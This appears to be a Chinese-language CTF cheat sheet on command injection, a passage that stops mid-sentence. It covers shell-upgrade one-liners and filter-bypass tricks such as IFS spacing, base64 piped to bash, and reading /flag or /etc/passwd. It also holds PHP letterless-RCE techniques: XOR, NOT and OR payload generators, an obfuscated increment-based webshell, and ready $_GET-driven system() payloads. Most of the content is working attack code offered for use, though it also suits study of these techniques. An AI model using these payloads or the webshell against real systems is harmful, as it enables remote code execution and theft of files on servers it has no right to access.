






命令注入
目录
Tool
反弹shell生成
shell 升级
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
完全交互式
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color
Bypass
通用型
空格，敏感字符 bypass 需要echo，｜，bash，base64存在
echo${IFS}"[ PAYLOAD ]"|base64${IFS}-d|bash
${printf "\xaa"} 十六进制绕过
${printf "\144\121"} 八进制绕过
读文件cat之类的被ban了
curl file:///flag
strings /flag
uniq -c/etc/passwd
bash -v /etc/passwd
rev /etc/passwd
空格
$<符号
$IFS
${IFS}
$IFS$9
%09 用于url传递 %0a %0d也可以
cat</flag
{cat,flag}
<>（cat<>/flag）
<（cat</flag）
&,|
斜杠
通过环境变量拿/
假设我们定义了一个变量为：
file=/dir1/dir2/dir3/my.file.txt
我们可以用 ${ } 分别替换获得不同的值：
${file#*/}：拿掉第一条 / 及其左边的字串：dir1/dir2/dir3/my.file.txt
${file##*/}：拿掉最后一条 / 及其左边的字串：my.file.txt
${file#*.}：拿掉第一个 . 及其左边的字串：file.txt
${file##*.}：拿掉最后一个 . 及其左边的字串：txt
${file%/*}：拿掉最后条 / 及其右边的字串：/dir1/dir2/dir3
${file%%/*}：拿掉第一条 / 及其右边的字串：(空值)
${file%.*}：拿掉最后一个 . 及其右边的字串：/dir1/dir2/dir3/my.file
${file%%.*}：拿掉第一个 . 及其右边的字串：/dir1/dir2/dir3/my
使用；执行多条命令
cd flag_dir;cat flag
关键字
flag -> fla''g fla""g fla\g
拼接绕过
a=fl;b=ag;cat $a$b
PHP Bypass
无字母数字RCE（RCEME）
异或
这里的异或，指的是php按位异或，在php中，两个字符进行异或操作后，得到的依然是一个字符，所以说当我们想得到a-z中某个字母时，就可以找到两个非字母数字的字符，只要他们俩的异或结果是这个字母即可。而在php中，两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或，异或的规则是：1^1=0,1^0=1,0^1=1,0^0=0，简单的来说就是相同为零，不同为一。
构造脚本
生成字母表的php文件
<?php
$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {
for ($j=0; $j <256 ; $j++) {
if($i<16){
$hex_i='0'.dechex($i);
}
else{
$hex_i=dechex($i);
}
if($j<16){
$hex_j='0'.dechex($j);
}
else{
$hex_j=dechex($j);
}
$preg = '/[a-z0-9]/i'; // 根据题目给的正则表达式修改即可
if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
echo "";
}
else{
$a='%'.$hex_i;
$b='%'.$hex_j;
$c=(urldecode($a)^urldecode($b));
if (ord($c)>=32&ord($c)<=126) {
$contents=$contents.$c." ".$a." ".$b."\n";
}
}
}
}
fwrite($myfile,$contents);
fclose($myfile);
根据字母表来生成payload的python
# -*- coding: utf-8 -*-
def action(arg):
s1=""
s2=""
for i in arg:
f=open("xor_rce.txt","r")
while True:
t=f.readline()
if t=="":
break
if t[0]==i:
#print(i)
s1+=t[2:5]
s2+=t[6:9]
break
f.close()
output="(\""+s1+"\"^\""+s2+"\")"
return(output)
while True:
param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
print(param)


取反
<?php
//在命令行中运行
fwrite(STDOUT,'[+]your function: ');
$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
fwrite(STDOUT,'[+]your command: ');
$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

自增
webshell，记得urlencode
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);

或运算
脚本
import re
from urllib.parse import unquote
import requests
preg = '[0-9a-z]'#(\^)(\+)(\~)(\$)(\[)(\])(\{)(\})(\&)(\-)]'可以自己改正则
filename = 'Or.txt'
with open(filename, "w") as file_ob:
pass
for i in range(256):
if re.match(preg,chr(i),re.I):
continue
for j in range(256):
if re.match(preg,chr(j),re.I):
continue
else:
if(i < 16):
hexI = '%0' + hex(i)[2:]
else:
hexI = '%' + hex(i)[2:]
if(j < 16):
hexJ = '%0' + hex(j)[2:]
else:
hexJ = '%' + hex(j)[2:]
if((i|j) >= 32 and (i|j) <= 126):
#print(chr(i) + '|'+ chr(j) + " = " + chr(i|j) + '--------' , i ,'|' , j , '=' , (i|j))
with open(filename, "a") as file_ob:
file_ob.write(hexI + '|'+ hexJ + "=" + str(chr(i|j))
+ '--------' + str(i) + '|' + str(j) + '=' + str((i|j)) + "\n")
def rep(args):
payload = ''
payload1 = ''
payload2 = ''
with open(filename) as file_ob:
lines = file_ob.readlines()
for i in args:
for line in lines:
#print(line)
if line[8] == i:
#print('(\"'+ line[:3] + '\"|\"' + line[4:7] + '\")', end = "")
payload1 += line[:3]
payload2 += line[4:7]
break
#print(payload)
payload = '\"' + payload1 + '\"|\"'+ payload2 + '\"'
return payload
running = True
while running:
exp = rep(input("your payload:\n"))
print("URL编码",exp)
print("无URL编码",unquote(exp))
#url = 'http://'
#data = {'c': unquote(exp)}
#headers = {"Content-Type": "application/x-www-form-urlencoded"}
#r = requests.post(url, data = data)
print("-------------结果--------------")
#print(r.text)
print("\n")
比如想执行system("ls /") 就得这样

骚payload
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff^%88%97%90%9E%92%96);&%ff=system
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff%ff%ff^%99%93%9E%98%D1%8F%97%8F);&%ff=readfile
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff%ff%ff^%99%93%9E%98%D1%8F%97%8F);&%ff=highlight_file
// 即:
// ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}('whoami');&%ff=system
// ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}('flag.php');&%ff=readfile
// ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}('flag.php');&%ff=highlight_file
${%ff%ff%ff%ff^%a0%b8%ba%ab} 代表${_GET}:
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
即:
${_GET}{%ff}();&%ff=phpinfo
//?shell=${_GET}{%ff}();&%ff=phpinfo

同理也可以取反
${~%A0%B8%BA%AB}{%ff}();&%ff=phpinfo
${~%A0%B8%BA%AB}{%ff}(~%88%97%90%9E%92%96);&%ff=system //system('whoami')
也可以用反引号加短标签
?><?=`{${~%A0%B8%BA%AB}{%ff}}`?>&%ff=ls /
即:
?><?=`$_GET[%ff]`?>&%ff=ls /
最开头的?>闭合了 eval() 函数自带的<?标签。接下来使用了短标签代替<?php echo ... ?>。{}里面包含的 PHP 代码可以被执行，~%A0%B8%BA%AB为_GET，最后将通过参数%ff传入的值使用反引号进行命令执行。
下划线
简单，我们上面有很多payload压根就没用到_
分号
无需担心，前面我们已经说了，PHP 短标签中的代码不需要写分号，所以我们直接把所有的 PHP 语句改成短标签形式就行了。
<?=echo (1)?>
\$符
如果php7以上，可以用或运算或者异或来绕过，因为其payload里没\$符。原因是php7中，我们可以使用(\$a)()这种方法来执行命令
在 PHP 5 中如果我们还使用('phpinfo')();这样的 PHP 表达式则会得到一个报错，原因就是 PHP 5 并不支持这种表达方式。所以，如果也过滤了$的话，对于 PHP 5 环境的利用方法就很复杂了。
php5和7的区别
在研究无数字字母rce的过程中，一个很重要的函数就是assert，但在php5的版本和php7的版本中，它是有一些区别的，我们上面的测试都是基于php5进行的，在php5中assert是一个函数，我们可以通过$f='assert';$f(...);这样的方法来动态执行任意代码，在php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码
但是在php7中，我们可以使用(\$a)()这种方法来执行命令，那相当于我们对phpinfo取反后就可以直接执行了，也可以选择file_put_contents()来写入shell，在php5中这样是不行的：